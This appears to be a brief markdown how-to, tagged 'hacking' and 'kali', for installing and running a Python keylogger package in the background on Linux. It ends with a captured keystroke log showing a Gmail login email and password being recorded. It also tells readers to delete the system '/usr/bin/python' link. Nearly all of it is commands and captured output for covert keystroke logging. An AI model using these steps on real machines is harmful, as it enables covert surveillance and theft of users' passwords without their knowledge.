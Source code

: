 ```yaml
---
title: Python keylogger
categories:
    - hacking
    - kali
---
```


## Python keylogger package

The job is already done and packaged with [that Python package](https://pypi.org/project/keylogger/).

## Installation

### Python 3 

This package works with Python 3, make sure you are using it:
  
    sudo rm /usr/bin/python
    sudo ln -s /usr/bin/python3 /usr/bin/python

### Package    
    
    pip install keylogger

## Set up log file

    sudo touch /var/log/keylogger.log

## Group & ownership for log file

    sudo groupadd spy
    sudo usermod -a -G spy vagrant    
    sudo chown root:spy /var/log/keylogger.log
    sudo chmod 660 /var/log/keylogger.log
            
## Usage
        
    /home/vagrant/.local/bin/keylogger --log-file /var/log/keylogger.log --clean-file &
    
## Watch log

    tail -f /var/log/keylogger.log 

Below the log generated by tiping in firefox: `gmail.com` ang logging with `thisismymail@gmail.com`/`mypassword`: 

    g
    m
    a
    i
    l
    Shift_L
    period
    c
    o
    m
    Return
    t
    h
    i
    s
    i
    s
    m
    y
    m
    a
    i
    l
    Shift_L
    Shift_L
    Shift_L
    [65027]
    agrave
    g
    m
    a
    i
    l
    Shift_L
    period
    c
    o
    m
    m
    y
    p
    a
    s
    s
    w
    o
    r
    d
    